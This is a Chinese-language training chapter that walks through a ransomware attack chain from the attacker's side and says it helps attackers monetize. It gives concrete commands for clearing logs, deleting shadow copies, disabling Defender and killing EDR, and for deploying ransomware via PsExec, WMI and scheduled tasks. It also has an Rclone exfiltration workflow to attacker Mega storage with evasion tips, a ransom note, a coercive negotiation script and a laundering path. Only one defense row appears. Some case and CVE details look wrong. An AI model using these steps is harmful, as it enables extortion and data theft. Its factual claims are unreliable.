




# 1. 勒索软件攻击链详解

## 概述

勒索软件（Ransomware）是当今网络犯罪领域**最暴利、最成熟**的变现模式之一。据统计，2024年全球勒索软件赎金支付总额超过**11亿美元**，单笔最高赎金突破**7500万美元**（MGM Resorts事件）。与早期"广撒网式"的随机攻击不同，现代勒索攻击已演变为**高度定向、运营化、分角色协作**的产业链。

理解勒索软件的完整攻击链，是进攻端高效实现变现和防御端精准拦截的前提。本章从攻击者视角出发，逐阶段拆解攻击链的战术、技术与流程，并配套MITRE ATT&CK映射、真实案例数据与防御对策。



**图0：全球勒索软件赎金支付总额年度趋势（来源：Chainalysis）**

---

## 1.1 勒索软件攻击全链路总览

现代勒索攻击包含6个核心阶段：侦察→初始入侵→立足点巩固→数据窃取→勒索软件部署→勒索谈判。每个阶段都有其独特的技术栈和目标。



**图1：勒索软件攻击6阶段全链路。** 颜色由蓝过渡到红，表示攻击严重程度的递增。每个阶段内部还有子步骤，攻击者可能根据目标环境灵活调整顺序。

从入侵到部署的典型时间线：

| 阶段 | 平均耗时 | 最短记录 | 说明 |
|------|---------|---------|------|
| 侦察 | 2-4周 | 3天 | 目标选定后的持续监控 |
| 初始入侵 | 1天 | 数分钟 | 单次尝试即成功的场景 |
| 立足点巩固 | 3-14天 | 1天 | 取决于网络规模和防御强度 |
| 数据窃取 | 1-7天 | 数小时 | 取决于数据量和外传通道带宽 |
| 勒索软件部署 | 数分钟 | 数秒 | GPO批量推送可在秒级完成 |
| 勒索谈判 | 3-30天 | 当天 | 取决于受害者响应速度 |

---

## 1.2 勒索软件即服务（RaaS）运营模式

RaaS模式是勒索软件产业链成熟的标志。它将传统软件行业的SaaS商业模式移植到犯罪经济中，大幅降低了入场门槛。

### 1.2.1 RaaS的角色分工

| 角色 | 职责 | 典型分成比例 | 月收入范围 |
|------|------|-------------|-----------|
| 开发者团队 | 编写勒索软件代码、维护加密模块、管理支付基础设施 | 20%-30% | $50K-$200K+ |
| 加盟者（Affiliates） | 实际入侵目标、部署勒索软件，通常具备专业渗透技能 | 70%-80% | $100K-$1M+ |
| 初始访问代理（IAB） | 出售已入侵目标网络的访问权限，按访问渠道定价 | 一次性卖断 | $1K-$50K/次 |
| 谈判代理 | 与受害者进行赎金谈判，提供标准化话术流程 | 5%-10% | 按单提成 |
| 洗钱网络 | 将加密货币赎金转换为法定货币 | 10%-20% | 按流水抽成 |

**数据来源：** Chainalysis 2024 Ransomware Report、《2025年网络犯罪经济白皮书》

### 1.2.2 典型RaaS平台的运作流程



**图2：RaaS角色之间的交互流程。** 值得注意的是，解密密钥通常由开发者控制而非加盟者，这保证了平台对加盟者的掌控力。

### 1.2.3 主要RaaS组织

| 组织名称 | 活跃时间 | 核心策略 | 总计赎金收入（估计） | 当前状态 |
|---------|---------|---------|------------------|---------|
| LockBit | 2019-2024 | RaaS运营效率最高，版本迭代快 | 超过$1亿 | 泄密后重组 |
| Conti | 2020-2022 | 高度组织化，企业式管理 | 超过$1.8亿 | 瓦解后分支为Black Basta等 |
| REvil/Sodinokibi | 2019-2022 | 公开发布RaaS加盟招募 | 超过$2亿 | 被多国执法行动打击 |
| BlackCat/ALPHV | 2021-2024 | Rust编写，跨平台支持 | 超过$3亿 | 2024年退出骗局后消失 |
| Clop | 2019-至今 | 专注GoAnywhere MFT等零日漏洞 | 超过$1.5亿 | 持续活跃 |
| Black Basta | 2022-至今 | Conti分支，回调钓鱼+ESXi加密 | 超过$1亿 | 活跃 |
| Play | 2022-至今 | 利用FortiOS和Exchange漏洞 | 超过$5000万 | 活跃 |

### 1.2.4 加盟者招募与筛选机制

RaaS平台的加盟者（Affiliate）并非随意开放。成熟的RaaS平台设有严格的准入机制：

**招募渠道：**
- 暗网论坛（Ramp、Exploit、XSS）的私密板块
- 已有加盟者的定向推荐（Referral机制）
- Telegram加密频道

**筛选标准：**
- 要求提供过去攻击的"业绩证明"（已支付赎金的目标数量）
- 部分平台要求缴纳$5,000-$20,000的保证金
- 设定最低业绩目标——连续3个月无成功攻击的加盟者会被踢出
- 要求使用平台指定的C2基础设施（便于平台监控进度）

**淘汰机制：**
LockBit在2023年的内部泄露文件显示，平台设有"绩效考核"制度：加盟者按季度评估，未达标的会被降级或终止合作。Conti甚至为员工发放工资和奖金，采用OKR管理方式。

---

## 1.3 攻击阶段深度拆解

### 1.3.1 侦察阶段 — 磨刀不误砍柴工

现代勒索攻击者在**决定入侵之前**会进行大量前期侦察。这个阶段决定了攻击的成败概率。

**目标选择标准：**

- **支付能力评估**：年收入在$500M以上的企业被视为高价值目标
- **业务关键度**：医院、政府、能源、金融等不可停机的行业支付率最高
- **保险覆盖**：存在网络安全保险的目标是优先选，保险公司通常会介入支付
- **安全成熟度**：通过Shodan/Censys扫描判断目标的安全防护水平
- **地理因素**：北美和欧洲企业支付率最高（因GDPR等合规压力），亚洲目标次之

**实操工具：**

| 类别 | 工具 | 用途 | 收费模式 |
|------|------|------|---------|
| 被动侦察 | Shodan | 搜索暴露的RDP/VPN端口、IoT设备 | 免费/付费 |
| 被动侦察 | Censys | 证书和SSL信息、子域名发现 | 免费/付费 |
| 被动侦察 | Criminal IP | IP地址风险评估和暴露面扫描 | 付费 |
| 被动侦察 | Spyse（已整合入Censys） | 资产发现和漏洞匹配 | 付费 |
| 主动侦察 | Nmap | 端口扫描、服务指纹识别 | 免费 |
| 主动侦察 | Nikto | Web服务器漏洞扫描 | 免费 |
| 主动侦察 | Subfinder/Amass | 子域名枚举 | 免费 |
| 主动侦察 | FFUF/Dirb | 目录和文件暴力枚举 | 免费 |
| 社交情报 | theHarvester | 邮件地址和子域名收集 | 免费 |
| 社交情报 | LinkedIn手动收集 | 员工信息、组织架构、技术栈 | 免费 |
| 社交情报 | Hunter.io | 企业邮箱格式验证 | 免费/付费 |

**侦察阶段的关键输出：**

```text
目标情报报告模板：
├── 基本信息
│   ├── 公司名称、总部地址、年收入
│   ├── 员工数量、IT部门规模
│   └── 行业、合规要求（HIPAA/GDPR/PCI-DSS）
├── 技术暴露面
│   ├── 公网IP段和开放端口
│   ├── VPN/RDP/Web应用入口
│   ├── 云服务（AWS/Azure/GCP）使用情况
│   └── 安全产品（EDR/MDM/SIEM）识别
├── 人员情报
│   ├── IT管理员和安全负责人LinkedIn信息
│   ├── 常用技术栈（从招聘JD推断）
│   └── 可钓鱼目标（财务/HR/高管助理）
└── 保险信息
    ├── 是否购买网络安全保险
    └── 保险公司名称和保额
```

### 1.3.2 初始入侵 — 打开大门

初始入侵是攻击链中最关键的一步。以下是勒索攻击最常用的入口：

#### 方式1：钓鱼攻击（占比约41%）

据Verizon 2024数据泄露调查报告，钓鱼仍然是初始入侵的第一大途径。

- **规模化钓鱼**：使用GoPhish/Evilginx等框架部署钓鱼页面，模仿Office 365或VPN登录页面
- **针对性鱼叉钓鱼（Spearphishing）**：针对特定高权限员工，邮件内容经过精心研究
- **回调钓鱼（Callback Phishing）**：新型手法，邮件冒充技术服务商要求回电，通话中诱导受害者安装远程控制软件（如AnyDesk/TeamViewer）
- **二维码钓鱼（Quishing）**：2024年新兴手法，在邮件中嵌入QR码引导至钓鱼页面，绕过传统邮件网关的URL检测

**实操案例：** Black Basta组织在2023年大量使用回调钓鱼。攻击者冒充微软技术支持，称有"未授权登录尝试"，引导受害者安装ConnectWise Control远程管理工具，完成初始入侵。该组织在2023年攻击了超过500个组织。

**钓鱼邮件框架对比：**

| 框架 | 特点 | 典型用途 | 难度 |
|------|------|---------|------|
| GoPhish | 开源，管理后台可视化，支持跟踪打开/点击 | 大规模钓鱼模拟 | 低 |
| Evilginx2 | 中间人代理，绕过MFA，捕获会话Cookie | 高价值目标MFA绕过 | 中 |
| King Phisher | 模板丰富，支持定时发送，A/B测试 | 企业级钓鱼模拟 | 低 |
| Modlishka | 反向代理，实时转发认证流量 | 实时凭证窃取 | 中 |
| CredPhish | 自定义开发，支持多因素认证拦截 | 高度定制化攻击 | 高 |

#### 方式2：漏洞利用（占比约33%）

针对公开暴露的服务漏洞进行扫描和自动化入侵。

**高价值漏洞类别：**

- **VPN漏洞**：Pulse Secure（CVE-2021-22893）、Citrix（CVE-2019-19781）、Fortinet（CVE-2023-27997）
- **RDP暴力破解或凭证填充**：使用Nuclei扫描+Hydra爆破，或直接购买RDP凭证
- **Web应用漏洞**：SQL注入、文件上传、RCE（Log4Shell CVE-2021-44228至今仍在利用）
- **Exchange漏洞**：ProxyLogon（CVE-2021-26855）和ProxyShell（CVE-2021-34473）

**漏洞利用自动化流程：**

```text
攻击者自动化工作流：
1. Nuclei模板扫描 → 发现已知漏洞
2. 验证漏洞可利用性（PoC测试）
3. 部署Web Shell或获取初始访问
4. 提取凭证 → 建立持久化
5. 评估网络环境 → 决定是否继续深入
```

#### 方式3：初始访问购买（占比约15%）

攻击者直接在暗网市场购买已入侵网络的访问权限，价格从几百到数万美元不等。

**IAB市场定价因素：**

| 因素 | 低价（$500-$3,000） | 中价（$3,000-$20,000） | 高价（$20,000-$100,000+） |
|------|-------------------|----------------------|--------------------------|
| 权限级别 | 普通域用户 | 本地管理员 | 域管理员/Domain Admin |
| 目标行业 | 教育、非营利 | 制造业、零售 | 金融、医疗、政府 |
| 目标规模 | <100员工 | 100-1000员工 | >1000员工 |
| 已有防护 | 无EDR | 基础AV | 部署EDR但有绕过路径 |
| 访问类型 | 单台主机 | 多台主机 | 全域访问 |

**主要IAB市场：**
- **Ramp**（俄语论坛）：最活跃的IAB交易平台
- **Exploit**（俄语论坛）：高价值访问权限
- **XSS**（俄语论坛）：综合型暗网市场
- **Telegram频道**：部分IAB通过Telegram私密频道直接交易

#### 方式4：供应链攻击（占比约7%）

通过入侵软件供应商或服务提供商，批量影响其客户。这是2023-2024年增长最快的攻击向量。

**经典案例：**

| 事件 | 年份 | 影响 | 攻击手法 |
|------|------|------|---------|
| Kaseya VSA | 2021 | 1500+企业被加密 | REvil利用0-day入侵Kaseya，通过更新机制分发勒索软件 |
| MOVEit Transfer | 2023 | 2600+组织受影响 | Clop利用SQL注入0-day，批量窃取文件 |
| 3CX供应链 | 2023 | 60万+企业用户 | 朝鲜Lazarus组通过木马化软件更新传播 |
| GoAnywhere MFT | 2023 | 130+组织 | Clop利用认证绕过漏洞批量窃取数据 |

#### 方式5：远程桌面协议（RDP）直接入侵（占比约13%）

RDP是勒索软件攻击的第二大入口。攻击者通过以下方式获取RDP访问：

- **暴力破解**：使用Hydra或自定义脚本对暴露在公网的RDP端口（3389）进行密码爆破
- **凭证填充**：使用从其他数据泄露中获取的用户名/密码组合尝试登录
- **购买RDP凭证**：暗网市场大量出售被入侵的RDP凭证，价格$3-$50不等
- **Shodan搜索**：`port:3389 "Remote Desktop Protocol"` 直接定位暴露的RDP服务

### 1.3.3 立足点巩固 — 扎根与扩张

成功进入目标网络后，攻击者不会立即部署勒索软件，而是先建立稳固的控制基础。这个阶段平均耗时3-14天，是防御者发现并阻止攻击的**关键窗口期**。

**C2通信：**

攻击者使用多种C2（命令与控制）协议绕过网络监控：

| C2类型 | 协议 | 工具 | 检测难度 | 说明 |
|--------|------|------|---------|------|
| HTTP/S混合 | HTTPS | Cobalt Strike、Sliver | 中 | 伪装正常Web流量，需深度包检测 |
| DNS隧道 | DNS TXT/A记录 | dnscat2、DNSExfiltrator | 中高 | 通过DNS查询携带数据，流量特征小 |
| 合法服务中继 | API调用 | Slack/Discord/Teams Webhook | 高 | 利用合法SaaS平台作为C2中继 |
| SMB命名管道 | SMB | Cobalt Strike | 中 | 内网横向通信，跨主机持久化 |
| ICMP隧道 | ICMP | Various | 中 | 将数据封装在ping包中 |
| 域前置（Domain Fronting） | HTTPS | CloudFlare/AWS CloudFront | 极高 | 利用CDN的TLS终止特性隐藏真实C2 |

**权限提升技术：**

| 技术 | 利用对象 | CVE编号 | 成功率 | 检测难度 |
|------|---------|---------|--------|---------|
| PrintNightmare | Windows打印后台处理程序 | CVE-2021-34527 | 高 | 中 |
| Zerologon | Windows域控制器Netlogon | CVE-2020-1472 | 高 | 低（已被广泛监控） |
| 凭证盗窃（Mimikatz） | lsass进程明文密码提取 | N/A | 极高 | 高（需管理员权限） |
| BYOVD | 加载有漏洞的内核驱动程序 | 多个 | 高 | 高 |
| Token窃取 | 进程中令牌复制 | N/A | 中 | 中 |
| Potato提权 | Windows令牌模拟 | CVE-2021-36934等 | 高 | 中 |

**横向移动策略：**

攻击者在内网中从一台机器扩散到另一台，最终获取域管理员权限：

1. **SMB/PsExec**：利用Admin$共享远程执行命令，`psexec.exe \\target -s -d cmd.exe`
2. **WMI远程执行**：通过WMI在远程系统启动进程，`wmic /node:"target" process call create "cmd.exe"`
3. **WinRM/PowerShell远程**：利用Windows远程管理接口，`Invoke-Command -ComputerName target -ScriptBlock {...}`
4. **RDP会话劫持**：接管已登录用户的RDP会话，`tscon <sessionID> /dest:console`
5. **凭证转储与复用**：使用Mimikatz从一台机器提取凭证，在另一台复用
6. **Pass-the-Hash**：直接使用NTLM哈希进行认证，无需明文密码
7. **Kerberoasting**：请求服务票据并离线破解，获取服务账户密码

**禁用安全工具（关键步骤）：**

在部署勒索软件之前，攻击者必须消除或绕过安全防御：

- **终止进程列表**：精确匹配EDR/AV进程如`MsMpEng.exe`（Windows Defender）、`senseir.exe`（CrowdStrike）、`swc_service.exe`（SentinelOne）、`cb.exe`（Carbon Black）
- **删除证据日志**：`wevtutil cl System`、`wevtutil cl Security`、`wevtutil cl Application`清除Windows事件日志
- **删除备份**：`vssadmin delete shadows /all`删除卷影副本；`bcdedit /set {default} recoveryenabled no`禁用恢复环境
- **BYOVD技术**：加载有漏洞的内核驱动程序绕过终端防护。经典案例：锁定软件（如BingoDisk.sys、thinkpad.sys）被提取数字签名后重新加载，利用其内核级权限终止安全进程
- **禁用Windows Defender**：`Set-MpPreference -DisableRealtimeMonitoring $true`（需管理员权限）或通过注册表`HKLM\SOFTWARE\Policies\Microsoft\Windows Defender`禁用

### 1.3.4 数据窃取 — 双重勒索的筹码

这是现代勒索攻击**最重要**的创新之一。在加密前，攻击者先窃取大量敏感数据。如果受害者不付赎金，数据将被公开。

**数据发现目标：**

```text
高优先级：
├── 客户数据库（PII、信用卡号、社保号）
├── 源代码仓库（GitLab/GitHub Enterprise）
├── 财务数据和审计文件
├── 知识产权和设计文档
├── 内部邮件和通信记录
├── HR数据和员工个人信息
├── 法律文书和合同
└── 云存储凭证和API密钥

工具：Filezilla/WinSCP侦察、网络共享遍历、PowerShell搜索
搜索命令示例：
  Get-ChildItem -Path C:\ -Recurse -Include *.xlsx,*.csv,*.sql,*.bak -ErrorAction SilentlyContinue
  findstr /si /m "password" C:\Users\*.txt C:\Users\*.docx
```

**数据外传手段：**

| 工具 | 优点 | 缺点 | 检测难度 |
|------|------|------|---------|
| Rclone | 开源，支持多种云存储，命令行无需交互 | 体积大，需下载 | 中 |
| MegaSync | 免费50GB，加密传输 | 需安装客户端 | 中 |
| FTP/SCP | 传统方式，简单直接 | 易被防火墙和DLP拦截 | 低 |
| 合法云服务 | 借用目标自身的白名单 | 需要已有凭据 | 高 |
| PowerShell压缩上传 | 无需额外工具 | 速度慢 | 中高 |
| DNS隧道 | 绕过大多数检测 | 带宽极低 | 高 |

**Rclone典型使用流程：**

```bash
# 1. 配置Rclone指向攻击者控制的Mega存储
rclone config create mega_remote mega user=attacker@email.com pass=encrypted_pass

# 2. 先压缩敏感数据（降低传输量，绕过内容检测）
7z a -p<password> -mhe=on C:\temp\loot.7z C:\SensitiveData\

# 3. 批量外传
rclone copy C:\temp\loot.7z mega_remote:/exfil/ --transfers=4 --multi-thread-streams=4

# 4. 验证传输完整性
rclone size mega_remote:/exfil/
```

**数据窃取阶段的OPSEC注意事项：**
- 限制单次传输速度（如10Mbps），避免触发流量异常告警
- 使用目标网络已有的合法云服务（如公司自己的OneDrive）进行外传
- 在非工作时间执行大规模传输
- 删除本地临时文件，清除传输日志

### 1.3.5 部署勒索软件 — 最后一击

当一切准备就绪，攻击者在**预定的时间窗口**（通常是深夜或周末，以便在IT人员反应之前最大化加密范围）开始行动。

**批量部署方法：**

| 方法 | 命令示例 | 优势 | 劣势 |
|------|---------|------|------|
| GPO分发 | 在域控制器上设置启动脚本 | 一次性覆盖全域 | 需要域管理员权限 |
| PsExec | `psexec.exe \\target -s -d ransomware.exe` | 简单直接 | 易被EDR检测 |
| WMI | `wmic /node:"target" process call create "ransomware.exe"` | 无需额外工具 | 目标需开放WMI端口 |
| SCCM/Intune | 利用软件分发功能推送 | 伪装为合法更新 | 需要入侵管理系统 |
| 计划任务 | `schtasks /create /tn "Update" /tr "C:\temp\ransom.exe" /sc onstart` | 可设定执行时间 | 需远程创建任务 |

**加密技术详解：**

现代勒索软件使用混合加密体系：

```text
┌─────────────────────────────────────────────────────────┐
│                  勒索软件加密架构                         │
├─────────────────────────────────────────────────────────┤
│  1. 每个文件生成唯一的AES-256密钥（会话密钥）             │
│  2. 用AES-256加密文件内容（速度最快）                   │
│  3. 用内嵌的RSA-4096公钥加密AES会话密钥                  │
│  4. 将加密后的AES密钥附加到加密文件末尾                   │
│  5. 受害者支付赎金后获得RSA私钥                          │
│  6. 使用RSA私钥解密AES密钥，再用AES密钥解密文件           │
└─────────────────────────────────────────────────────────┘
```

- **混合加密**：AES-256（对称）加密文件，RSA-4096（非对称）加密密钥
- **间歇性加密（Intermittent Encryption）**：仅加密文件的15%-30%就足以使文件无法使用，大幅提升速度——LockBit 3.0和BlackCat均采用此技术
- **多线程并行**：使用8-64个工作线程同时加密，针对SSD优化随机IO
- **选择性跳过系统文件**：跳过`Windows`、`Program Files`目录和系统文件扩展名，避免破坏Windows正常运行，确保受害者能支付赎金
- **ESXi加密**：针对VMware虚拟机磁盘文件（.vmdk）的加密，可一次性加密整个虚拟化环境

**主要勒索软件家族技术对比：**

| 特性 | LockBit 3.0 | BlackCat/ALPHV | Black Basta | Play |
|------|-------------|----------------|-------------|------|
| 编写语言 | C/C++ | Rust | C++ | C++ |
| 平台支持 | Windows/Linux/ESXi | Windows/Linux/macOS/ESXi | Windows/Linux/ESXi | Windows/Linux/ESXi |
| 加密算法 | AES-256-CTR + RSA-2048 | AES-256-XTS + ChaCha20 | AES-256-CTR + RSA-4096 | AES-256-GCM + RSA-2048 |
| 间歇性加密 | 支持 | 支持 | 支持 | 不支持 |
| 批量部署 | GPO/PsExec/WMI | 自定义传播器 | GPO/PsExec/WMI | PsExec/GPO |
| 额外勒索 | 双重+DDoS | 双重 | 双重+DDoS | 双重 |
| 解密工具 | 有（第三方） | 有（Emsisoft） | 无 | 无 |

### 1.3.6 勒索谈判与支付流程

#### 勒索信的内容结构

典型勒索信包含以下要素：

```text
尊敬的{公司名称}：

您的网络已被我们入侵。

我们窃取了以下数据：
{窃取的数据摘要，如：客户数据库、财务记录、内部邮件等}

我们加密了您的所有文件。

您可以联系我们进行解密。
您的唯一ID：{唯一标识符}

联系方式：
- 通过Tor浏览器访问：{暗网地址}
- 服务器可用时间：随时

注意：不要联系FBI！不要联系安全公司！
否则数据将被永久公开。
```

#### 赎金谈判的潜规则

勒索谈判实际上遵循一套隐性的"商业规则"：

- **首次报价通常不是底价**：攻击者期望讨价还价，初始报价往往是期望价格的2-3倍
- **数据泄露威慑是最强筹码**：攻击者建立了专门的暗网数据泄露站点（Leak Site）
- **解密测试**：提供1-3个文件的解密作为"信用证明"
- **谈判通常在3-10天内完成**：超过时限可能被公开数据
- **支付后解密工具的效果**：通常能成功解密85%-95%的文件，但部分复杂加密方案可能失败
- **折扣策略**：如果受害者在48小时内付款，部分组织提供20%-30%折扣
- **分期付款**：少数情况下接受分期支付，但赎金总额会更高

**谈判对话示例（简化）：**

```text
受害者：我们无法支付您要求的500万美元，这是我们年营收的20%。
攻击者：您的客户数据库包含1200万条记录。根据GDPR，每条记录泄露
       最高罚款20欧元。您的合规团队应该算得出这个数字。
受害者：我们有备份，可以恢复数据。
攻击者：我们已经窃取了全部数据并在我们的泄露站点做好了准备。
       一旦公开，您的股价会怎样？建议您和董事会讨论。
受害者：我们最多能支付80万美元。
攻击者：考虑到数据量和目标价值，150万美元是我们的底线。
       如果72小时内未收到，第一批数据将公开。
受害者：我们同意150万美元。请提供支付地址。
```

#### 赎金支付通道



**图3：赎金从支付到洗白的典型路径。** Monero（XMR）因其强匿名性正逐步取代比特币成为勒索软件的首选支付货币，2024年Monero使用的占比已从5%上升到约18%。

**洗钱路径详解：**

| 阶段 | 方法 | 工具/平台 | 洗白率 |
|------|------|----------|--------|
| 第1层 | 混币（Chain Hopping） | Tornado Cash、Sinbad、ChipMixer | 60-80% 追踪困难 |
| 第2层 | 去中心化交易所 | Uniswap、PancakeSwap | 40-60% |
| 第3层 | OTC交易 | 本地线下交易商 | 30-50% |
| 第4层 | 合法化 | 购买房地产/NFT/高价值商品 | 最终洗白 |

**关键数据：** Chainalysis报告显示，2023年仅有约**30%**的加密货币犯罪资金被成功追踪，较2022年的40%下降10个百分点，表明洗钱技术在持续进化。

---

## 1.4 从双重到N重勒索的演进

### 1.4.1 双重勒索

由Maze勒索软件组织于**2019年12月**首创。在此之前，勒索软件只有"加密+解密"的单一勒索模式。

**第一重：** 加密数据，要求赎金换取解密密钥
**第二重：** 威胁公开泄露窃取的敏感数据

双重勒索的威力在于：即使受害者有离线备份可以恢复数据，也可能因为数据泄露带来的声誉损失、合规处罚（GDPR罚款最高可达全球年营收的4%）而被迫支付赎金。

### 1.4.2 三重勒索

由Avaddon在2021年首次实践。在双重勒索基础上增加：

**第三重：** 对受害者的客户/合作伙伴发起DDoS攻击或直接发送勒索邮件

典型案例：2021年Avaddon攻击某航空公司后，不仅加密了该公司的系统，还向其乘客发送邮件，威胁公开他们的个人信息。

### 1.4.3 四重勒索（2023年后的新趋势）

**第四重：** 向受害者的董事会、投资人、监管机构直接发送泄露数据样本

部分组织甚至开始向**股票做空者**出售目标将被攻击的信息，帮助做空者从目标股价下跌中获利后分成。这是一种超越纯赎金范畴的金融化攻击。

### 1.4.4 各勒索方式的收益对比

| 勒索方式 | 支付率 | 平均赎金金额 | 首次出现 |
|---------|-------|-------------|---------|
| 单一加密勒索 | ~30% | $100K-$500K | 1989年（AIDS木马） |
| 双重勒索 | ~55% | $500K-$2M | 2019年（Maze） |
| 三重勒索 | ~70% | $1M-$10M | 2021年（Avaddon） |
| 四重勒索 | ~75% | $2M-$50M+ | 2023年 |

---

## 1.5 真实案例深度分析

### 案例1：Colonial Pipeline（2021年5月）

| 维度 | 详情 |
|------|------|
| 攻击组织 | DarkSide（RaaS） |
| 入侵方式 | VPN凭证泄露（已停用的旧账号） |
| 赎金金额 | 75 BTC（约$440万） |
| 影响 | 美国东海岸燃油供应中断6天，触发国家紧急状态 |
| 关键教训 | 单一入口（VPN）即可导致国家级基础设施瘫痪 |

**攻击链还原：**
1. DarkSide通过暗网获取Colonial Pipeline的VPN凭证
2. 使用合法凭证进入网络，未触发异常登录告警
3. 在网络内横向移动，获取域管理员权限
4. 窃取约100GB数据
5. 部署DarkSide勒索软件加密关键系统
6. Colonial Pipeline被迫关闭全部管道运营

### 案例2：Kaseya VSA供应链攻击（2021年7月）

| 维度 | 详情 |
|------|------|
| 攻击组织 | REvil（RaaS） |
| 入侵方式 | Kaseya VSA远程管理软件0-day漏洞 |
| 赎金要求 | $7000万（史上最高） |
| 影响 | 1500+企业被加密，包括瑞典Coop超市关闭800家门店 |
| 关键教训 | 供应链攻击可实现"一次入侵，千个目标" |

### 案例3：MGM Resorts（2023年9月）

| 维度 | 详情 |
|------|------|
| 攻击组织 | Scattered Spider + ALPHV/BlackCat |
| 入侵方式 | 社会工程学攻击IT帮助台（冒充员工） |
| 赎金金额 | 约$1500万 |
| 影响 | 赌场停机10天，损失超$1亿，酒店系统全面瘫痪 |
| 关键教训 | 人是最薄弱的安全环节，社会工程学可绕过最先进技术防御 |

**Scattered Spider的攻击手法：**
1. 在LinkedIn上找到MGM的IT帮助台员工
2. 通过社交工程获取该员工的凭证
3. 利用合法凭证进入MGM网络
4. 与ALPHV/BlackCat合作部署勒索软件
5. 加密超过100台服务器和关键系统

---

## 1.6 MITRE ATT&CK 攻击链映射

以下是勒索软件攻击链到MITRE ATT&CK框架的映射，供安全分析师和实战者参考。

| 攻击阶段 | MITRE技术ID | 技术名称 | 典型工具 |
|---------|------------|---------|---------|
| 侦察 | T1592 | Gather Victim Host Information | Shodan、DNSDumpster |
| 侦察 | T1598 | Phishing for Information | theHarvester |
| 初始入侵 | T1566.001 | Spearphishing Attachment | GoPhish、Evilginx |
| 初始入侵 | T1190 | Exploit Public-Facing Application | Metasploit、自定义漏洞利用 |
| 初始入侵 | T1078 | Valid Accounts | 购买/暴力破解凭证 |
| 持久化 | T1053.005 | Scheduled Task | schtasks.exe |
| 权限提升 | T1068 | Exploitation for Privilege Escalation | PrintNightmare、Zerologon |
| 防御规避 | T1562.001 | Disable or Modify Tools | 自定义终止脚本 |
| 防御规避 | T1211 | Exploitation for Defense Evasion | BYOVD（如Terminator工具） |
| 凭证访问 | T1003.001 | LSASS Memory | Mimikatz、Procdump |
| 横向移动 | T1021.002 | SMB/Windows Admin Shares | PsExec、Cobalt Strike |
| 横向移动 | T1021.006 | Windows Remote Management | WinRM、PowerShell Remoting |
| 数据窃取 | T1048 | Exfiltration Over Alternative Protocol | Rclone、MegaSync |
| 数据窃取 | T1567 | Exfiltration Over Web Service | Google Drive、Dropbox |
| 影响 | T1486 | Data Encrypted for Impact | 勒索软件本体 |
| 影响 | T1490 | Inhibit System Recovery | vssadmin、wbadmin |

---

## 1.7 深度防御：分阶段拦截策略

针对攻击链的每个阶段，防御者可以建立多层次的检测和阻断机制。

| 攻击阶段 | 检测手段 | 阻断策略 | 推荐工具 |
|---------|---------|---------|---------|
| 侦察 | 异常端口扫描告警、外部探测日志 | 限制公网暴露面、关闭不必要的服务 | Shodan监控、Nmap自扫、Cloudflare WAF |
